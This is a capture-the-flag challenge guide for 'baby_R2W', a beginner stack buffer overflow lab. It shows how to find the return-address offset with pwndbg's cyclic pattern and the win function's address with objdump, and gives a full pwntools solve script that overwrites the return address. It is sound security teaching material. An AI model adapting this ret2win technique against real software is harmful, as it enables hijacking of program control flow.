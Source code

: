 # Challenge Name
baby_R2W

## Learning Objective
Extended from BOF. Learn to find and rewrite return address to another function

## Description 
We want to win! But... how to win?

## Difficulty:
Guided (easy)

## Guide
In the code, you can see that `win` function is never called. We want to call this function.

To perform ret2win, we need to overwrite the return address from `main` to `win` after `vuln` function finishes running.

#### What we need to do:
1. Find the exact offset before it overflows
2. Find return address of `win` address

#### To find the offset needed:
1. use `cyclic 100` in pwndbg (this generates the de bruijin sequence)
2. `break main` and run the program (C)
3. you should see that the `RSP` pointer contains `faaaaaaa` and beyond. We just need the first 8 bytes because that is where the return address.

```shell
pwndbg> cyclic -l faaaaaaa
Finding cyclic pattern of 8 bytes: b'faaaaaaa' (hex: 0x6661616161616161)
Found at offset 40
```

#### To find the win address:
```shell
$> objdump -d baby_R2W_bin | grep win
0000000000401136 <win>:
```

Now we can put our solve script together!

#### Final Solution
```python
from pwn import *

# setup process
p = process("./baby_R2W_bin")
context.binary = "./baby_R2W_bin"

# address of win function
win = p64(0x401136)

# payload 
payload = b'A' * 40
payload += win

# send payload
p.sendline(payload)
p.interactive()
```

## Solution
Refer to solve.py

## Hints
1. https://ir0nstone.gitbook.io/notes/binexp/stack/ret2win



## Attached Files
baby_R2W.c
baby_R2W_bin

## Resources


## Flag